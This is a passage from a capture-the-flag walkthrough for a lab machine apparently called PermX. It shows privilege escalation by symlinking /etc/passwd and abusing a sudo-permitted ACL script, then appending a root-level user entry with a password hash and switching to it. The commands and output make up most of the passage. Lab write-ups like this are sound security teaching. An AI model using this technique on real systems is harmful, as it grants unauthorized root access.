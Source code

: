 ```

mtz@permx:~$ echo 'oxdf:$1$k3KMFmEw$AnPBUU.iz.aGzxKJ8IRjB1:0:0:pwned:/root:/bin/bash'
oxdf:$1$k3KMFmEw$AnPBUU.iz.aGzxKJ8IRjB1:0:0:pwned:/root:/bin/bash

```

This user has user id 0 and group id 0, so it will be the root user.

I’ll make `passwd` writable, and add the line:

```

mtz@permx:~$ ln -s /etc/passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd 

```

It worked:

```

mtz@permx:~$ getfacl /etc/passwd
getfacl: Removing leading '/' from absolute path names
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:mtz:rwx
group::r--
mask::rwx
other::r--

```

I’ll add the new entry:

```

mtz@permx:~$ echo 'oxdf:$1$k3KMFmEw$AnPBUU.iz.aGzxKJ8IRjB1:0:0:pwned:/root:/bin/bash' >> /etc/passwd

```

Now when I change to the new user, I’m root:

```

mtz@permx:~$ su oxdf
Password: 
root@permx:/home/mtz#

```

And I can read `root.txt`:

```

root@permx:~# cat root.txt
7da72cb8************************

```
